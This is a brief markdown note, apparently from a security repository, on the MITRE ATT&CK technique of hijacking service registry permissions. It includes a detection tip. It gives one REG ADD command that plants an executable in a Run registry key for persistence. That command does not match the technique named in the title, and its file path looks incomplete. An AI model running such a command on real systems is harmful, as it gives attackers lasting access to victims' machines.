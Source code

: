 # [Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Exploit Description:
Hijack registry entries used by services by using flaws in permissions.  
HKLM\SYSTEM\CurrentControlSet\Services
REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v “Canon Gear” /t REG_SZ /d C:\Users\Administrator.vcch\Appdata\Local\.exe
(Substitute registry path locations with what is needed) 


## Exploit syntax:
* Install-Persistence

## Detection Technique:
* Investigating Run and Startup registry keys.